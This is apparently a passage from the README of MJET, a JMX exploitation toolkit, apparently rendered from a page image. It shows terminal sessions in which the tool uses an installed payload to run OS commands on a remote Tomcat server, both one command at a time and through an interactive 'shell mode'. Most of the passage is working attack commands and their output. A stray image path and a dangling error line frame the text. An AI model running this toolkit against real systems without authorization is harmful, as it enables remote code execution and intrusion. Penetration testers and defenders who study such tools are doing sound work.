 ### Running the command 'ls -la' in a Linux target:

After the payload was installed, we can use it to execute OS commands on the target.

```
h0ng10@rocksteady ~/w/mjet> jython mjet.py 10.165.188.23 2222 command super_secret "ls -la"

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Connected: rmi://10.165.188.1  4
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Executing command: ls -la
total 20
drwxr-xr-x  5 root    root    4096 Apr 26 11:12 .
drwxr-xr-x 33 root    root    4096 Apr 10 13:54 ..
lrwxrwxrwx  1 root    root      12 Aug 13  2018 conf -> /etc/tomcat8
drwxr-xr-x  2 tomcat8 tomcat8 4096 Aug 13  2018 lib
lrwxrwxrwx  1 root    root      17 Aug 13  2018 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Apr 26 11:12 policy
drwxrwxr-x  3 tomcat8 tomcat8 4096 Apr 10 13:54 webapps
lrwxrwxrwx  1 root    root      19 Aug 13  2018 work -> ../../cache/tomcat8


[+] Done
h0ng10@rocksteady ~/w/mjet>
```
### Running in shell mode

If you don't want to load Java for every command, you can use the "shell mode"
to get a limited command shell.

```
h0ng10@rocksteady ~/w/mjet> jython mjet.py 10.165.188.23 2222 shell super_secret 

MJET - MOGWAI LABS JMX Exploitation Toolkit
===========================================
[+] Connecting to: service:jmx:rmi:///jndi/rmi://10.165.188.23:2222/jmxrmi
[+] Connected: rmi://10.165.188.1  5
[+] Use command 'exit_shell' to exit the shell
>>> ls -la
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Executing command: ls -la
total 20
drwxr-xr-x  5 root    root    4096 Apr 26 11:12 .
drwxr-xr-x 33 root    root    4096 Apr 10 13:54 ..
lrwxrwxrwx  1 root    root      12 Aug 13  2018 conf -> /etc/tomcat8
drwxr-xr-x  2 tomcat8 tomcat8 4096 Aug 13  2018 lib
lrwxrwxrwx  1 root    root      17 Aug 13  2018 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Apr 26 11:12 policy
drwxrwxr-x  3 tomcat8 tomcat8 4096 Apr 10 13:54 webapps
lrwxrwxrwx  1 root    root      19 Aug 13  2018 work -> ../../cache/tomcat8


>>> pwd
[+] Loaded de.mogwailabs.MogwaiLabsMJET.MogwaiLabsPayload
[+] Executing command: pwd
/var/lib/tomcat8


>>> exit_shell
[+] Done
h0ng10@rocksteady ~/w/mjet> 

```

[?]: Returned error: